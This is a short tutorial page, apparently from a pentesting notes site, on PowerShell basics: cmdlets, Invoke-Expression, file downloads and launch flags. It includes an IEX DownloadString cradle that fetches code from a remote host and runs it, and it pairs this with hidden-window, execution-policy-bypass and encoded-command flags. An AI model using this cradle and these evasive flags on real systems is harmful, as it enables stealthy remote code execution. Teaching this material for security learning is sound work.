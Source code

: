 # Powershell Basics

Microsoft has a free course on Introduction to Powershell [here](https://docs.microsoft.com/en-us/learn/modules/introduction-to-powershell/) on their website. Information on [about\_Powershell.exe](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_powershell\_exe?view=powershell-5.1\&viewFallbackFrom=powershell-7.2).

We can run powershell from the Start Menu by searching for it, through the command prompt by running `powershell.exe`, or through the run dialogbox(`windows key+r`) and running `powershell.exe`

### Cmdlet

A cmdlet is a lightweight command that is used in the PowerShell environment. The PowerShell runtime invokes these cmdlets within the context of automation scripts that are provided at the command line. Cmdlets perform an action and typically return a Microsoft .NET object to the next command in the pipeline. A cmdlet is a single command that participates in the pipeline semantics of PowerShell. This includes binary (C#) cmdlets, advanced script functions, CDXML, and Workflows.

## Commands

* `IEX` OR `Invoke Expression`
  * The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without `Invoke-Expression`, a string submitted at the command line is returned (echoed) unchanged.

### Download files:

*   Invoke-WebRequest http://`(IP)`:(PORT)/(FILE) -Outfile (Outputfile)

    * Invoke-WebRequest -URI http://192.168.1.52:8000/test.txt -Outfile Downloaded.txt



![](<../../.gitbook/assets/image (20).png>)

* "IEX (New-Object Net.WebClient).DownloadString('URL')"
  * IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.52:8000/test.txt')

## Arguments

* `-NoP` OR `-NoProfile`
  * When you launch PowerShell with NoProfile parameter, it ensures to run script in default PowerShell environment and run without any Windows PowerShell profile. Does not load the Windows PowerShell profile.
  * powershell.exe -NoP
* `-NonI` OR `-NonInteractive`
  * Does not present an interactive prompt to the user.
* `-W Hidden` OR `-WindowStyle Hidden`
  * Sets the window style to Normal, Minimized, Maximized or Hidden.
* `-Exec Bypass` OR `-ExecutionPolicy Bypass`
  * Sets the default execution policy for the current session and saves it in the `$env:PSExecutionPolicyPreference` environment variable. This parameter does not change the Windows PowerShell execution policy that is set in the registry.
* `-Enc` OR `-EncodedCommand`
  * Accepts a base-64-encoded string version of a command. Use this parameter to submit commands to Windows PowerShell that require complex quotation marks or curly braces.
